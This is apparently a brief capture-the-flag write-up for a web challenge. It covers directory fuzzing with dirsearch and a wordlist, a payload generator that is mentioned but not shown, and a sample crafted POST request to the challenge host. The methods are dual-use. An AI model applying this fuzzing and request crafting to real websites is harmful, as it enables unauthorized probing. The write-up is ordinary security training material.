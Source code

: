 1. Fuzz the website with /usr/share/wordlists/dirb/common.txt with php extension:
	```python3 dirsearch.py -u URL -w /usr/share/wordlists/dirb/common.txt -e php```

2. After you get the source code, build your payload to get pass all of the conditions. 
   I've personally made a php script that generates the payload for me (get_payload.php)

3. Make a request with the generated payload, example:

```
POST /index.php HTTP/1.1
Host: challenge.ctf.games:31965
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenge.ctf.games:31965/
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Upgrade-Insecure-Requests: 1

name=ntj&answer=qweqweasda&time=1004681409
```

